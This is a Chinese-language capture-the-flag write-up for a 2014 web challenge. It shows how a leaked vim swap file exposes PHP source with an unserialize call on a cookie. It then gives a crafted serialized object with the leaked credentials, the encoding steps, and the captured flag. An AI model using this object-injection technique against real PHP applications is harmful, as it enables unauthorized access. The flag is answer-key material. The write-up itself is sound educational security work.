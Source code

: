 # No cON Name CTF Quals 2014: MakeMeFeeWet^Hb

**Category:** Web
**Points:** 300
**Description:**

> Access == Flag
>
> Url: https://ctf.noconname.org/makemefeelweb/

## Write-up

頁面進入只有帳號密碼登入頁面，初步判斷沒有 SQL Injection。

檢視原始碼發現註解：

```
<!-- vim: set ts=2 sw=2: -->
```

初步判斷可能有 vim 備份文件。

經猜測後找到 [.login.php.swp](https://github.com/hsttw/write-ups/blob/master/no-con-name-ctf-quals-2014/MakeMeFeeWet%5EHb/login.php.swp)，可以看到片段的內容：

```
    @$data = unserialize(hex2bin(implode(explode("\\x", base64_decode($cookie)))));
if (isset($_COOKIE['JSESSIONID'])) {
    if ($username == "p00p" && $password == "l!k34b4u5") {
        $this->p = $_passwd;
        $this->u = $_uname;
    public function __construct($_uname, $_passwd) {
    public $p;
    public $u;
class Creds {
```

看到 `unserialize` 直覺是 Object Injection，設定 cookie `JSESSIONID` 後 `GET login.php` 得到

```
Getting close :)
```

判斷應該是透過 `JSESSIONID` 做 Object Injection。

根據片段的內容拼湊了一下 Object：

```
O:5:"Creds":2:{s:1:"u";s:4:"p00p";s:1:"p";s:9:"l!k34b4u5";}
```

接著對這段做 `bin2hex` 再 `base64_encode`，將得到的值設定 cookie `JESSIONID`，重新 `GET login.php` 即可得到 flag。

```
NcN_778064be6556e64577517875a8710b0abeba1578
```
